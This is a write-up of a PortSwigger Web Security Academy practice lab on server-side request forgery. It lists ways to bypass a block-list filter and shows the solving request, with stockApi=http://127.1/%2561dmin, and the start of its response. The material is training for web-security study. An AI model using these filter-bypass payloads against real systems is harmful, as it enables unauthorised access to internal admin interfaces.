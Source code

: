 ## SSRF with blacklist-based input filter

**Title:** SSRF with blacklist-based input filter. [Go](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`. The developer has deployed two weak anti-SSRF defenses that you will need to bypass.
 
## Preface

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using the following techniques:

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.

- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.

- Obfuscate blocked strings using URL encoding or case variation.

- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

## Methodology

### Finding the vulnerable parameter

In this particular lab we are interested in stock check feature.

### My Thought

Intercepting the "Check stock" request in Burp Suite, and sent it to Burp Repeater. Changeing the URL in the `stockApi` parameter to `http://127.0.0.1/` and we observed that the request is blocked. To bypass we changed the URL to: `http://127.1/`. But `http://127.1/admin` is also blocked. We obfuscated the "a" by double-URL encoding it to `%2561` to access the admin interface and delete the target user.

**Request**
``` HTTP
POST /product/stock HTTP/1.1
Host: 0ac000da04c174d980664e17005200b9.web-security-academy.net
Cookie: session=XaG65h5SMOyK72xh4PwHIs7z4UThH5s7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac000da04c174d980664e17005200b9.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0ac000da04c174d980664e17005200b9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http://127.1/%2561dmin&productId=3&storeId=1
```

**Response**
``` HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=4C9nNLCQ4wnnfpY2bSfzBvldRYRbaPfj; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3074
```
